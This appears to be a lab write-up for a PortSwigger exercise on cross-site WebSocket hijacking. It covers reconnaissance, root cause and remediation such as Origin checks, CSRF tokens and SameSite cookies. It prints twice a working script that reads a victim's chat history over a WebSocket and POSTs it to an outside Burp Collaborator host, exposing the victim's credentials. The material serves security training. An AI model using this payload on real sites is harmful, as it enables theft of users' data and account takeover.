



## Metadata

- **Difficulty:** Practitioner
- **Category:** WebSockets
- **Lab URL:** [Lab: Cross-site WebSocket hijacking](https://portswigger.net/web-security/websockets/cross-site-websocket-hijacking/lab)
- **Date Solved:** 10/9/2026
## Vulnerability Summary

The app has a live chat feature that is vulnerable to Cross-site Request Forgery (CSRF), exploited through WebSockets. The WebSocket command `READY` retrieves past chat message from the server. Combined with the server's sole session handling mechanism using HTTP cookies and the lack of anti-CSRF token, we can use XSS to perform CSRF, exfiltrating an user's sensitive data (in this case, credentials) to our external domain, allowing us to take control of their account.
## Reconnaissance

- Navigate to the live chat feature at `/chat` and send a normal message via the chat interface (`aaa`). In Burp Suite > Proxy > WebSockets history, the messages are transmitted as JSON objects:
```json
{"message":"aaa"}
```
- When the page is reloaded, notice that there's a websocket request to the server with the command `READY`, that the server uses to retrieve the chat log:

- It is also observed that the WebSocket handshake request contains no anti-CSRF token, and the only session token is transmitted in a cookie:

With these information, we can use deliver a payload to the victim that sends the `READY` command to the server, then fetch the data (chat log) and make a `POST` request to our external domain (provided by Burp Collaborator).
## Exploitation Steps

1. In the Collaborator tab in Burp Suite, generate a Burp Collaborator domain.
2. Go to the exploit server.
3. Store this payload, then deliver exploit to victim:
```js
<script>
const wsUri = "wss://lab-id.web-security-academy.net/chat";
var socket = new WebSocket(wsUri);
socket.onopen = function() {
socket.send("READY");
};
socket.onmessage = function(event) {
fetch('https://burp-collaborator-domain', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```
4. Poll for interactions in your Burp Collaborator tab. You should see that the HTTP interactions contain the victim's chat history (not in chronological order). Read all of the requests' body. We can infer that the victim forgot the password and asked the chatbot for it. In one of these request, the chatbot replies with the victim's credentials:

5. Use these credentials to log into `carlos`'s account. You should be able to do so successfully, and lab is solved.
## Payload Used

```js
<script>
const wsUri = "wss://lab-id.web-security-academy.net/chat";
var socket = new WebSocket(wsUri);
socket.onopen = function() {
socket.send("READY");
};
socket.onmessage = function(event) {
fetch('https://burp-collaborator-domain', {method: 'POST', mode: 'no-cors', body: event.data});
};
</script>
```
The flow of the script is like this:
- We open a new WebSocket using the `chat` endpoint, with `https://` replaced with `wss://`
- We configured our socket to send the `READY` command, on the event when a connection with a WebSocket is opened through `onopen`
- On the event when data is received through the WebSocket (`onmessage`), the server fetches our Burp Collaborator domain and issues a `POST` request containing the data (`event.data`), which in this case, the chat log between the server and the victim.
## Root Cause

The app:
- performs session handling solely through the session cookie
- lacks an anti-CSRF token
- does not validate the `Origin` header during WebSocket upgrade request
These conditions allow us to perform CSRF attacks.
## Remediation

1.  The server must validate the `Origin` header during the initial HTTP WebSocket upgrade request. Reject the handshake if the origin does not exactly match the application's trusted domain. 
2. Implement an unpredictable, session-specific CSRF token in the handshake. This token can be passed via a custom HTTP header (if initiated via XHR/Fetch before the WebSocket upgrade) or appended as a query string parameter (e.g., `wss://trusted.com/chat?csrf_token=random_value`). 
3. Configure the session cookie with the `SameSite=Lax` or `SameSite=Strict` flag. This prevents the browser from sending the session cookie in cross-site requests, mitigating the ambient credential reliance that makes CSRF possible.